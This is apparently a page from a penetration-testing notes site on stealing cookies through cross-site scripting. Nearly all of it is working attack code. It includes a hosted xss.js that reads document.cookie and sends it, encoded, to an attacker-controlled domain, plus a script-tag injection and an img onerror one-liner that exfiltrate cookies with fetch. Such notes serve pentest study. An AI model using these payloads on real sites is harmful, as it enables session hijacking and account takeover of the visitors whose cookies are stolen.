 ```yaml
---
title: Stealing Cookie
layout: default
parent: XSS
has_children: false
nav_order: 1
---
```


<h2>Hosting method:</h2>

1. First create a file name xss.js with the following content:
```
let cookie = document.cookie
let encodedCookie = btoa(cookie)
new Image().src = "http://domain/?cookie=" + encodedCookie;
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/xss.js"></script>`

<h2>One liner alternative:</h2>

1. Replace domain with domain you control:
`<img src="x" onerror="fetch('http://domain/cookie=?'+encodeURIComponent(document.cookie))">`

2. Note that can use either single quote or a backslash to escape the double quotes inside double quotes. Also if in URL need to encode the plus using %2b.

Possible payloads:
`<img src='http://192.168.45.X:9000/name'>`

Previous code on xss.js
```
let cookie = document.cookie
let encodedCookie = encodeURIComponent(cookie)
fetch("http://domain/?cookie=" + encodedCookie)
```